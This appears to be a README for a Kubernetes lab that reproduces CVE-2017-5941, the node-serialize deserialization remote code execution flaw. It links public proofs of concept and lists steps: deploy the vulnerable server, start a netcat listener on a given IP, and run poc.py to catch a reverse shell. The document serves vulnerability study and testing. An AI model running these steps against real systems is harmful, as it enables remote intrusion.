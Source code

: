 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f scenario-1-server.yaml` \
3- Forward port `kubectl port-forward pods/scenario-1-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- You are in!

### Kubernetes
Check https://learnk8s.io/deploying-nodejs-kubernetes for deployment tutorial
